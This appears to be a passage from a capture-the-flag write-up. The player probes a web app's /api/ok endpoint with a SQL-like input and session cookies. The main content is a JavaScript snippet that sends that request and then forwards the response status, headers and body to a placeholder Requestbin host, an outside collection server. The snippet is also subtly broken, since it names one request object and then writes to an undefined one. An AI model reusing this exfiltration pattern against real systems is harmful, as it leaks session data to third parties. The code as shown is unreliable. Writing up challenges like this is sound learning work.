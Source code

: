 But where is the flag?

I guess you just have to test out different endpoints.

[https://tenor.com/view/aqua-aaaaa-cry-help-anime-gif-24539456](https://tenor.com/view/aqua-aaaaa-cry-help-anime-gif-24539456)

(me when i can’t find the endpoint)

-vow

After trying out different endpoints, you realize that something is slightly different when you POST data to the /api/ok endpoint:

```jsx
// Sending random SQL query to /api/ok
const data1 = JSON.stringify({
  "ok": "SELECT *",
})

const options1 = {
  hostname: "localhost",
  port: 5173,
  path: "/api/ok",
  method: "POST",
  headers: {
    "Content-Type": "application/json",
    "Cookie": "Add your own Cookies."
  },
}

// Get the response body and put it into different variables.
const req1 = http.request(options1, function(res) {
  var status_code = res.statusCode;
  var heading = JSON.stringify(res.headers)
  res.on("data", function(chunk) {
    var lol = chunk.toString();

		// Pack variables into data.
    const data2 = JSON.stringify({
      "status_code": status_code,
      "heading": heading,
      "data": lol
    })

    const options2 = {
      hostname: "Add your own Requestbin link.",
      path: "/vowbecomefemboy",
      method: "POST",
      headers: {
        "Content-Type": "application/json",
      },
    }
		
		// Send to Requestbin
    const req = https.request(options2)
    req2.write(data2)
    req2.end()

  });
})
req1.write(data1)
req1.end()
```
